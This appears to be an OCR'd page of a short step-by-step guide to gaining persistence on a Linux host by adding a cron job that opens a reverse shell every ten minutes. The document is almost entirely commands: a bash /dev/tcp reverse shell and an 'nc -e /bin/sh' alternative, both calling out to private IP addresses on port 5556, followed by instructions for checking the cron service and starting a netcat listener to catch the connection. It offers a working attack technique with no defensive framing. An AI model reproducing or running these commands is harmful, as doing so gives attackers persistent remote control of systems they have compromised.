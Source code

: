 ### **STEP 1: CREATE THE CRON JOB**

1. Open the crontab editor:
    `crontab -e`
2. Add the following line to create a cron job that runs every 10 minutes:
    `*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196`
3. Alternatively, use netcat for the reverse shell:
    `*/10 * * * * nc -e /bin/sh 192.168.1.21 5556`
4. If you need to specify a user, add the user before the command:
    `*/10 * * * * pelle /path/to/binary`

### **STEP 2: VERIFY THE CRON JOB**

1. Check if the cron service is active:
    `service crond status`
2. If the cron service is not started, start it:
    `service crond start`

### **STEP 3: SET UP A NETCAT LISTENER**

1. On your local machine, set up a netcat listener to catch the reverse shell connection:
    `nc -lvp 5556`

### **STEP 4: TROUBLESHOOTING AND VERIFICATION**

1. Verify that the cron job is running:
    `crontab -l`
2. Check the status of the cron service again if needed:
    `service crond status`
    `pgrep cron`
4. Ensure your netcat listener is ready and waiting for connections:
    `nc -lvp 5556`